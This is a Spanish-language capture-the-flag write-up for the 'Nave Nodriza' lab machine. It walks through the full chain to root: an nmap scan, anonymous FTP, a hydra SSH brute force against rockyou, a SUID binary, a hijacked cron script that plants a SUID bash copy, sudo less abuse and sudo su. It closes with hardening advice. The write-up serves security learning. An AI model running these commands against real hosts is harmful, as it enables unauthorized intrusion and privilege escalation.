










# 🛸 WRITEUP: COMPROMISO TOTAL – NAVE NODRIZA

## 🗺️ Resumen Ejecutivo de la Intrusión

El compromiso completo de la infraestructura se consolidó mediante un encadenamiento progresivo de vectores horizontales y verticales:


```Plaintext
[Reconocimiento] ➔ [FTP Anónimo] ➔ [Fuerza Bruta SSH] ➔ [Usuario: excluido] ➔ [SUID Ejecutor] ➔ [Usuario: analista] ➔ [Secuestro de Tarea Cron] ➔ [Usuario: investigador] ➔ [Esteganografía GIMP] ➔ [Usuario: seguridad] ➔ [GTFOBins: Less] ➔ [Usuario: directora] ➔ [Sudo Privileges] ➔ [ROOT]
```

## 🧭 1. Fase de Reconocimiento y Enumeración Activa

Se inició el laboratorio ejecutando un escaneo de puertos TCP agresivo sobre el host objetivo para mapear los servicios expuestos.

### 💻 Comando Ejecutado:


```Bash
sudo nmap -p- --open --min-rate=5000 -A -Pn -n 192.168.1.18
```

- **Explicación del comando:** Escanea la totalidad de los 65,535 puertos TCP (`-p-`), reportando solo los abiertos (`--open`), enviando paquetes a alta velocidad (`--min-rate=5000`) sin realizar resolución DNS (`-n`) ni verificación de Host vivo (`-Pn`), aplicando scripts y detección de versiones (`-A`).


### 📊 Resultados del Escaneo:

- **21/tcp (FTP):** Hospeda `vsftpd 3.0.3` con inicio de sesión anónimo permitido (_Anonymous FTP login allowed_).

- **22/tcp (SSH):** Hospeda `OpenSSH 9.2p1` bajo una distribución Debian 12.

- **80/tcp (HTTP):** Hospeda un servidor web Apache `2.4.65`.



## 📂 2. Vector de Entrada: Intrusión Anónima en FTP y Fuerza Bruta

### 💻 Comando Ejecutado (Conexión FTP):


```Bash
ftp -p 192.168.1.18
```

- **Explicación del comando:** Inicia sesión en el servicio FTP forzando el modo pasivo (`-p`) para asegurar la estabilidad de las transferencias de datos a través de cortafuegos. Se usaron las credenciales `anonymous` / `[ENTER]`.


Se accedió al directorio `archivos_publicos` y se descargó el artefacto clave:


```FTP
ftp> cd archivos_publicos
ftp> get manifiesto_clase_alpha.txt
```


### 🔍 Análisis de la Evidencia (`manifiesto_clase_alpha.txt`):

El documento reveló de forma analítica:

- **Nombres de usuario potenciales:** `excluido` y `jano`.

- **Vector de ataque:** El servicio SSH (Puerto 22).

- **Pista:** Indicaba que la credencial del usuario era un término muy común en un listado de seguridad clásico de la Tierra, requiriendo fuerza bruta con diccionario.


### 💻 Comando Ejecutado (Ataque de Fuerza Bruta):


```Bash
hydra -l excluido -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.18
```

- **Explicación del comando:** Lanza un ataque dirigido al servicio SSH empleando el diccionario masivo `rockyou.txt` enfocado de forma estricta en la identidad del usuario `excluido`.


El ataque reportó un emparejamiento exitoso, validando las credenciales de acceso inicial.



## 🏠 3. Consolidación y Reconocimiento de Identidades

Tras ingresar por SSH como `excluido`, se procedió a auditar las cuentas reales del sistema operativo con capacidad de interactuar con terminales activas.

### 💻 Comando Ejecutado:


```Bash
cat /etc/passwd | grep bash
```

- **Explicación del comando:** Vuelca la base de datos de cuentas locales (`/etc/passwd`) y filtra a través de `grep` aquellas identidades mapeadas con la shell `/bin/bash`:


```Bash
root:x:0:0:root:/root:/bin/bash
excluido:x:1001:1001::/home/excluido:/bin/bash
analista:x:1002:1002::/home/analista:/bin/bash
investigador:x:1003:1003::/home/investigador:/bin/bash
seguridad:x:1004:1004::/home/seguridad:/bin/bash
directora:x:1005:1005::/home/directora:/bin/bash
```

Dentro del home de `excluido`, se recuperó la primera bandera (`user.txt`) bajo el token de usuario anonimizado, y una nota indicando que los Analistas de Datos modificaron un ejecutable para correr bajo su identidad.



## 🚀 4. Escalada Vertical: De Excluido a Analista

### 💻 Comando Ejecutado:


```Bash
ls -la /opt/nave_nodriza_herramientas/
```

Se identificó un binario con propiedades SUID asignadas al rol superior:


```Bash
-rwsr-xr-x 1 analista analista 16128 dic  9 01:54 ejecutor_shell
```

- **Análisis del Vector:** La presencia del bit **SUID** (`s`) en el propietario permite que cualquier usuario ejecute este binario heredando temporalmente los privilegios del propietario (`analista`). El binario contenía internamente llamadas a `setresuid` y `/bin/bash`.

### 💻 Comando Ejecutado (Explotación):


```Bash
./ejecutor_shell
```

La ejecución exitosa del binario elevó inmediatamente la sesión del auditor, concediendo una shell operativa como el usuario **`analista`**.

## ⚙️ 5. Escalada Horizontal: De Analista a Investigador (Secuestro de Tarea)

Una vez en el contexto de `analista`, se inspeccionó el directorio `/home/analista/log_temporal_sistema/`, detectando un script de automatización:


```Bash
-rwxr-xr-x 1 analista excluido 142 may 26 12:25 procesar_datos.sh
```

El archivo original (bajo control inicial de Root/Investigador) estaba protegido contra escritura directa, impidiendo una inyección estándar (`bash: permiso denegado`).

### 🪓 Explotación de Permisos sobre el Directorio Padre:

Al listar los metadatos de la carpeta contenedora (`log_temporal_sistema`), se observó que los permisos globales eran de escritura y lectura total (`drwxrwxrwx`), perteneciendo a `root:root`.

> **Principio de Explotación:** Aunque un archivo inicial sea de "solo lectura", si un atacante posee permisos de **escritura sobre el directorio contenedor**, tiene la facultad de **eliminar el inodo completo del archivo** del sistema de archivos y recrear uno nuevo con el mismo nombre bajo su propio control.

### 💻 Comandos Ejecutados (Reemplazo e Inyección):


```Bash
rm procesar_datos.sh
echo -e '#!/bin/bash\ncp /bin/bash /home/analista/log_temporal_sistema/bash_investigador\nchmod +s /home/analista/log_temporal_sistema/bash_investigador' > procesar_datos.sh
chmod +x procesar_datos.sh
```

- **Explicación del comando:** Se borró el script original aprovechando el control del directorio. Se generó un nuevo script `procesar_datos.sh` inyectando una carga útil (_payload_) diseñada para duplicar la shell legítima (`/bin/bash`) en la ruta local y aplicarle el bit SUID (`chmod +s`).


Una vez que la tarea automatizada del sistema (Cron) invocó el script modificado bajo los privilegios del rol superior, se generó el binario malicioso en la carpeta:


```Bash
-rwsr-sr-x 1 investigador investigador 1265648 may 26 12:28 bash_investigador
```

### 💻 Comando Ejecutado (Pivoteo):


```Bash
./bash_investigador -p
```

- **Explicación del comando:** Invoca la copia de la shell SUID. La flag `-p` es obligatoria en versiones modernas de Bash para evitar que la shell deseche automáticamente los privilegios efectivos (`euid`) heredados del propietario, otorgando acceso como el usuario **`investigador`**.


## 🖼️ 6. Análisis Forense Esteganográfico (De Investigador a Seguridad)

Consolidado el rol de `investigador`, se identificó una pista (`testt00001.txt`) que citaba: _"La imagen guarda un secreto que no soporta los extremos"_, haciendo referencia al archivo gráfico de GIMP `testt00001.xcf` (~3.2 MB) ubicado en el home.

Al no contar con el entorno interactivo de `python3` ni con credenciales directas para `scp`, se diseñó una solución táctica para exportar el binario hacia la estación de trabajo local del auditor empleando SSH de forma inversa:

### 💻 Comando Ejecutado (Extracción Local):


```Bash
ssh excluido@192.168.1.18 "cat /home/investigador/testt00001.xcf" > /home/gonzalo/Desktop/testt00001.xcf
```

- **Explicación del comando:** Conecta de forma remota, ejecuta el volcado binario del archivo por consola mediante `cat` de manera directa y redirige la salida del canal de datos estándar (`>`) para reconstruir el archivo `.xcf` de forma íntegra localmente en el Escritorio.


### 🕵️‍♂️ Análisis Forense Visual en GIMP:

Tras una fase inicial de descarte en metadatos tradicionales, el archivo se importó en la aplicación gráfica GIMP. El análisis de las propiedades del lienzo reveló la técnica esteganográfica aplicada:

1. **Opacidad al 0.0%:** La capa de texto que contenía el secreto estaba oculta por transparencia.

2. **Incompatibilidad de Fuentes:** Mostraba bloques amarillos/naranjas vacíos por falta de renderizado nativo.

3. **Desplazamiento del Cuadro:** El carácter inicial estaba truncado en el borde superior izquierdo.


Al interactuar con la capa, forzar el umbral y copiar el contenido oculto, se recuperó y dedujo la contraseña para la siguiente identidad.


### 💻 Comando Ejecutado (Fiscalización y Pivotaje):


```Bash
su seguridad
```

Se ingresó la contraseña recuperada con éxito, migrando al usuario **`seguridad`**.

## 🔑 7. Escalada Horizontal Avanzada: De Seguridad a Directora

Al ingresar a la home de `seguridad`, se leyó el archivo `CAPITULO_4.txt`, enfocando la búsqueda de credenciales en los respaldos críticos del sistema operativo.

### 💻 Comando Ejecutado (Enumeración Dirigida):


```Bash
find / -name "*backup*" -o -name "*respaldo*" -o -name "*copia*" 2>/dev/null | grep -vE "/usr|/proc|/sys|/var/lib/dpkg"
```

- **Explicación del comando:** Busca en todo el sistema elementos que contengan palabras de respaldo, omitiendo errores (`2>/dev/null`) y limpiando el output de rutas dinámicas o comunes del gestor de paquetes.


Se identificó el archivo protegido en la ruta nativa: `/var/backups/registro_operaciones_directora.txt`, el cual denegaba la lectura directa a usuarios comunes.

### 🪓 Explotación de Sudoers vía GTFOBins (`less`):

Se procedió a listar los privilegios delegados por Sudo para comprobar brechas en la política:


```Bash
sudo -l
```

El sistema arrojó la directiva: `(directora) NOPASSWD: /usr/bin/less`.


### 💻 Comando Ejecutado (Lectura Privilegiada):


```Bash
sudo -u directora /usr/bin/less /var/backups/registro_operaciones_directora.txt
```

- **Explicación del comando:** Ejecuta la herramienta `less` forzando la identidad del usuario objetivo (`-u directora`). Al ser un paginador interactivo, `less` salta las restricciones estándar del sistema de archivos, abriendo el documento protegido desde el contexto con privilegios de la Directora.


El documento expuso en texto plano las credenciales de la Directora, procediendo a ejecutar el salto de identidad interactivo: `su directora`.

## 👑 8. Compromiso Total del Sistema (De Directora a Root)

Una vez consolidada la sesión bajo el rol de `directora`, se analizó la directiva final (`CAPITULO_5_ROOT.txt`), que situaba el objetivo definitivo en la raíz. Se procedió a interrogar las capacidades Sudo de esta cuenta:

### 💻 Comando Ejecutado:


```Bash
sudo -l
```

El output arrojó permisos globales absolutos y sin restricción de contraseña:


```Bash
User directora may run the following commands on TheHackersLabs-NaveNodriza:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```


### 🎯 Captura de la Bandera de Root:

Haciendo uso de esta vulnerabilidad crítica de exceso de privilegios mínimos, se migró de forma instantánea al entorno de ejecución corporativo del superusuario:


```Bash
sudo su
cat /root/flag.txt
```

- **Explicación de comandos:** `sudo su` invoca el entorno completo de la terminal de Root de manera interactiva sin solicitar autenticación. `cat` lee de forma limpia el archivo de cierre de la máquina.



## 📝 Conclusiones y Recomendaciones de Fortalecimiento (Hardening)

1. **Seguridad en Directorios Compartidos:** Permitir permisos globales de escritura (`777`) en carpetas del sistema donde se alojan scripts ejecutados por Root o Cron permite el borrado y suplantación de código malicioso de forma trivial por usuarios de bajo nivel.

2. **Restricción de Paginadores en Sudoers:** Evitar la delegación de binarios interactivos como `less`, `more` o `vi` en Sudoers, ya que cuentan con capacidades nativas de escape a terminales o lecturas arbitrarias saltándose el control de accesos básico.

3. **Saneamiento de Credenciales en Archivos de Respaldo:** La información de auditoría o claves maestras nunca debe almacenarse en archivos planos desprotegidos dentro de directorios comunes como `/var/backups`.